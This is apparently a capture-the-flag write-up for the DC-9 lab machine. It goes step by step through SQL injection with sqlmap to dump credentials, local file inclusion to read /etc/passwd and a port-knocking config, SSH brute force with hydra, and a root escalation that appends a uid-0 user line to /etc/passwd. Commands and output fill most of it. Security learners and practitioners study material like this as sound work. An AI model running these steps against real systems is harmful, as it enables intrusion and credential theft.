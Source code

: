 root@kali ~/D/C/DC-9# nmap -sS -T4 -A -p- 10.0.0.25

PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http

SSH is filtered, gonna need to use a proxy or reverse shell from the site hosted on the web server.

Going to http://10.0.0.25 have a couple of pages. We have a login page and a search page. When passing "' OR 1=1 #" in the search query we can see all of the available results. This means http://10.0.0.25/search.php is vulnerable to SQLi.
This means we are going to need to use 'sqlmap'. Since the search doesn't send a GET request and takes arguments from the url, we are going to need to download the results.php using Burp Suite and use 'sqlmap' on it.

root@kali ~/D/C/DC-9# sqlmap -r results.txt --dbs

available databases [3]:
[*] information_schema
[*] Staff
[*] users

root@kali ~/D/C/DC-9# sqlmap -r results.txt -D users --tables --columns --dump

Returns usernames and password. We can add them to the files users.txt and password.txt.

root@kali ~/D/C/DC-9# sqlmap -r results.txt -D Staff -T Users --columns --dump

+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+

Hash decode: transorbital1

We now have the creds in order to be able to log into the site.
After logging in we can see that http://10.0.0.25/manage.php shows and error: "File does not exist". This might be an indicator that this page is vulnerable to LFI (Local File Inclusion).

http://10.0.0.25/manage.php?file=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin sshd:x:105:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash 

Now at this point I got a little stuck I didn't know what files to read. So I traced my steps and saw that SSH is filtered, this might be a sign that we should use Port Knocking (A method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified port. The primary purpose of Port Knocking is to prevent an attacker from scanning a system for potentially exploitable services by doing a port scan, because unless the attacker sends the correct knock sequence, the protected ports will appear closed, our in our case filtered). 
Turns out when Port Knocking is enabled, it must have a config file at /etc/knockd.conf ----> https://www.tecmint.com/port-knocking-to-secure-ssh/

http://10.0.0.25/manage.php?file=../../../../../../etc/knockd.conf:

[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 

We can use the command 'knock' that allows use to Port Knock ports on the machine.

root@kali ~/D/C/DC-9# knock 10.0.0.25 7469 8475 9842
root@kali ~/D/C/DC-9 [SIGINT]# nmap -sS -T4 -p- 10.0.0.25

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

SSH is open :3 . We can now brute force the ssh login using the credentials we found in the SQL database. 

root@kali ~/D/C/DC-9# hydra -L users.txt -P passwords.txt ssh://10.0.0.25 -IV

[22][ssh] host: 10.0.0.25   login: chandlerb   password: UrAG0D!
[22][ssh] host: 10.0.0.25   login: joeyt   password: Passw0rd
[22][ssh] host: 10.0.0.25   login: janitor   password: Ilovepeepee

I logged in as the user 'joeyt' and found nothing in his home directory, he also not able to run sudo on the machine. The user 'chandlerb' was the same story. But the user 'janitor' had a secret directory for Putin that held a couple of passwords.

janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt:

BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts

One of this passwords must be for another user we found earlier.

root@kali ~/D/C/DC-9# hydra -L users.txt -P passwords-found-on-post-it-notes.txt ssh://10.0.0.25 -IV

[22][ssh] host: 10.0.0.25   login: fredf   password: B4-Tru3-001

fredf@dc-9:~$ sudo -l

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

The user 'fredf' can run the file /opt/devstuff/dist/test/test as root.

fredf@dc-9:~$ /opt/devstuff/dist/test/test
Usage: python test.py read append
fredf@dc-9:/opt/devstuff/dist/test$ find / -name test.py 2> /dev/null
/usr/lib/python3/dist-packages/setuptools/command/test.py

After running the command /opt/devstuff/dist/test/test it spouts out the syntax for the command test.py. After finding and reading it, we can find out that the command adds (apeands) the content of the first file onto the second file, the same as '>>'.

e.g. test1.txt = "Hello World", test2.txt = "Linux is better then Windows"
/opt/devstuff/dist/test/test test1.txt test2.txt
test2.txt = Hello World\nLinux is better then Windows

I played with it a bit and we can't add our own exploit to /opt/devstuff/dist/test/test. We also can't add some malicious python code to 'test.py'.

I searched online for "linux edit files for privilege escalation" and found this article that shows we can add a new line to the /etc/passwd file and thus create a new user with root permissions.

By coping the line of the root user in /etc/passwd and adding a generated password using openssel, we can add a new line to /etc/passwd and thus add a new user with root permissions.

root@kali ~/D/C/DC-9# openssl passwd newpassword
Warning: truncating password to 8 characters
qhg/ezNoZ/ApE

newroot:qhg/ezNoZ/ApE:0:0:root:/root:/bin/bash

fredf@dc-9:/tmp/expliot$ echo 'newroot:qhg/ezNoZ/ApE:0:0:root:/root:/bin/bash' > newRootUser.txt
fredf@dc-9:/tmp/expliot$ cat newRootUser.txt 
newroot:qhg/ezNoZ/ApE:0:0:root:/root:/bin/bash
fredf@dc-9:/tmp/expliot$ sudo /opt/devstuff/dist/test/test newRootUser.txt /etc/passwd
fredf@dc-9:/tmp/expliot$ su newroot
Password: newpassword
root@dc-9:/tmp/expliot# whoami
root

theflag.txt:



███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.